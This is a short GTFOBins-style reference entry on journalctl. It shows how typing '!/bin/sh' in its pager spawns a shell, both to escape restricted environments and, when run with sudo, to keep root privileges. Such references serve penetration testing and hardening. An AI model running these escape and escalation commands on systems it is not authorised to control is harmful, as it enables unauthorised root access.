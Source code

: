 # GTFOBin: journalctl

This invokes the default pager, which is likely to be `less`, other functions may apply.

This might not work if run by unprivileged users depending on the system configuration.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
journalctl
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo journalctl
!/bin/sh
```